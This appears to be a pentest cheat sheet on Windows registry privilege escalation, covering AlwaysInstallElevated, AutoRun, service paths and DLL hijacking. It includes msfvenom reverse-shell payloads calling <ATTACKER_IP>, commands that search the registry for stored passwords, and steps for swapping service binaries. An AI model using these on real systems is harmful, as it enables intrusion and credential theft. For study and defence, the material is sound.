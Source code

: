 # Windows Registry Exploits

The Windows Registry is a hierarchical database that stores configuration settings and options for the operating system. Misconfigurations in the registry can lead to privilege escalation opportunities.

## Registry Basics

```powershell
# Main registry hives
HKEY_CURRENT_USER (HKCU) - Contains user-specific configuration
HKEY_LOCAL_MACHINE (HKLM) - Contains system-wide settings
HKEY_CLASSES_ROOT (HKCR) - File associations and COM objects
HKEY_USERS (HKU) - All user profiles on the system
HKEY_CURRENT_CONFIG (HKCC) - Hardware profile information
```

## AlwaysInstallElevated Privilege Escalation

The AlwaysInstallElevated policy allows non-privileged users to run Microsoft Windows Installer package files (MSI) with elevated (SYSTEM) privileges.

### Detection

Both registry keys need to be set to 1:

```cmd
# Check HKEY_CURRENT_USER
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Check HKEY_LOCAL_MACHINE
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Exploitation

If both registry values are 1, create a malicious MSI package:

```bash
# On Kali Linux / Attack Machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f msi -o malicious.msi
```

Transfer the MSI file to the target and execute:

```cmd
# Execute the MSI silently
msiexec /quiet /qn /i C:\path\to\malicious.msi
```

## AutoRun Programs

Windows can be configured to automatically run programs when a user logs in. If these registry keys point to executables we can modify, we can escalate privileges.

### Detection

```cmd
# Check for autorun programs
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

### Exploitation

1. Identify a writable autorun program
2. Replace it with a malicious executable or modify it to execute your payload
3. Wait for a privileged user to log in (or restart if it's a system autorun)

```cmd
# Check permissions on an autorun executable
icacls "C:\Path\To\AutoRun.exe"

# Replace with malicious executable
copy C:\Path\To\malicious.exe "C:\Path\To\AutoRun.exe" /Y
```

## Stored Credentials in Registry

The registry may contain credentials or encoded passwords that can be extracted.

### Detection

```cmd
# Search for passwords in the registry
reg query HKLM /f "password" /t REG_SZ /s
reg query HKCU /f "password" /t REG_SZ /s

# Check for stored RDP credentials
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s

# Check for PuTTY session information
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# Check for auto-login credentials
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultPassword
```

## Service Registry Permissions

If a user has permission to modify service registry entries, they can point the service to a malicious executable.

### Detection

```powershell
# PowerShell script to check service registry permissions
$services = Get-ChildItem HKLM:\SYSTEM\CurrentControlSet\Services
foreach($service in $services) {
    $path = $service.Name.Replace("HKEY_LOCAL_MACHINE","HKLM:")
    $acl = Get-Acl $path
    foreach($entry in $acl.Access) {
        if($entry.RegistryRights.ToString() -match "FullControl|WriteKey|SetValue|CreateSubKey" -and $entry.IdentityReference -notmatch "NT AUTHORITY\\SYSTEM|BUILTIN\\Administrators") {
            Write-Host "Vulnerable service found: $path"
            Write-Host "Identity: $($entry.IdentityReference)"
            Write-Host "Permissions: $($entry.RegistryRights)"
        }
    }
}
```

### Exploitation

1. Identify a service with vulnerable registry permissions
2. Modify the ImagePath value to point to your malicious executable
3. Restart the service

```cmd
# Check the current ImagePath
reg query HKLM\SYSTEM\CurrentControlSet\Services\VulnService /v ImagePath

# Modify the ImagePath
reg add HKLM\SYSTEM\CurrentControlSet\Services\VulnService /v ImagePath /t REG_EXPAND_SZ /d "C:\path\to\malicious.exe" /f

# Restart the service (if you have permissions)
sc stop VulnService
sc start VulnService
```

## Unquoted Service Paths

If a service path contains spaces and is not enclosed in quotes, Windows will try to execute each valid path with spaces.

### Detection

```cmd
# Find services with unquoted paths and spaces
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# PowerShell alternative
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -notmatch "`"" -and $_.PathName -match " "} | Select-Object Name, PathName, StartMode
```

### Exploitation

1. Identify a service with an unquoted path containing spaces
2. Check write permissions in the directories along the path
3. Create a malicious executable in one of the writable directories, following the space pattern

```cmd
# Example: Service path is "C:\Program Files\Vulnerable Service\service.exe"
# Windows will try:
# 1. C:\Program.exe
# 2. C:\Program Files\Vulnerable.exe
# 3. C:\Program Files\Vulnerable Service\service.exe

# Check permissions on the directories
icacls "C:\Program Files"
icacls "C:\Program Files\Vulnerable Service"

# If you have write permissions to any of these locations, place a malicious executable there
copy malicious.exe "C:\Program Files\Vulnerable.exe"

# Restart the service
sc stop "Vulnerable Service"
sc start "Vulnerable Service"
```

## Registry Hijacking for DLL Search Order

Applications often look for DLLs in specific locations, which can be controlled through registry entries.

### Detection

Look for registry keys that specify DLL search paths:

```cmd
# Search for DLL-related registry keys
reg query HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
reg query "HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs
```

### Exploitation

If you can write to a folder specified in a DLL search path:

```cmd
# Create a malicious DLL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f dll -o malicious.dll

# Copy to the directory in the search path
copy malicious.dll C:\Path\Specified\In\Registry\missing-dll.dll

# Wait for the application to load the DLL
```

## WOW64 Registry Redirection

On 64-bit systems, the registry redirects 32-bit application requests. This can be abused in some scenarios.

```cmd
# 32-bit applications accessing HKLM\Software will be redirected to:
reg query HKLM\SOFTWARE\WOW6432Node

# Check if there are differences in permissions between the two:
reg query HKLM\SOFTWARE\SomeApplication /s
reg query HKLM\SOFTWARE\WOW6432Node\SomeApplication /s
```

## Protecting Against Registry-Based Attacks

1. Limit registry write permissions for standard users
2. Use properly quoted service paths
3. Disable AlwaysInstallElevated policy
4. Audit registry changes for sensitive keys
5. Use secure boot and execute prevention mechanisms
6. Avoid storing credentials in the registry
7. Implement proper service account isolation 